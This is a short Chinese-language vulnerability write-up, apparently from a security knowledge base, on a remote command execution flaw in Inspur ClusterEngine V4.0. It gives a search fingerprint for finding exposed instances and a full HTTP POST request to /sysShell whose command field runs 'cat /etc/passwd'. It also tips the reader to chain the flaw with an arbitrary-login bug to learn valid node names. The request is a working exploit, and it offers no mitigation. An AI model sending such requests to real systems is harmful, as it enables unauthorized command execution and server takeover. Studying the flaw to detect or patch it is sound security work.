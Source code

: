 # 浪潮ClusterEngineV4.0 sysShell 任意命令执行漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>浪潮ClusterEngineV4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="TSCEV4.0"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204987.png)

发送请求包

```shell l
POST /sysShell HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204983.png)



<a-checkbox checked>注意参数 node 中的 cu01 需要为shell集群中的存在主机</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204763.png)



这里可以配合任意用户登录漏洞查看主机名